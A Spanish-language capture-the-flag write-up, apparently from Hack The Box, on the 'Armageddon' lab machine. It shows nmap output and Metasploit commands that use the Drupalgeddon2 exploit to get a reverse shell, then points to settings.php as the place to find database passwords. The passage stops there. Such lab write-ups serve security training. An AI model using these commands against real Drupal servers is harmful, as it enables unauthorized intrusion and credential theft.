



# Hack-the-box writeup: Armagedon Machine


## Overview

| Name     | Armageddon   |
| -------- | ------------ |
| IP       | 10.10.10.233 |
| Puntos   | 20           |
| Os       | Linux        |
| Dicultad | Fácil        |


##  Scanning con nmap

Reconocimiento con NMAP esto fue lo que encontramos:

```bash
──(root💀kali)-[~/hackthebox_machine/armagedon/nmap]
└─# nmap -sC -sV 10.10.10.233 -p22,80 -oN objetivo
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 14:35 EDT
Nmap scan report for 10.10.10.233
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddo
```

## Revisando página web

Pudimos detectar una versión vulnerable de drupal, este contiene un xploit con el cual puedo ganar acceso al servidor por medio de msfconsole.



## Generando payload

- Nos dirigemos a msfconsole y configuraremos lo siguiente.

  ```bash
  msfcosle -q
  use exploit/unix/webapp/drupal_drupalgeddon2
  options
  set rhosts 10.10.10.233
  set lhost tun0
  run
  ```

  

  

## Encontrando archivo setting.php

- Si nos vamos a la ruta **/var/www/html/sites/default/** veremos que tenemos un archivo que tiene por nombre **settings.php** 



- Revisando el archivo **settings.php** vamos a encontrar las contraseñas de la base de datos.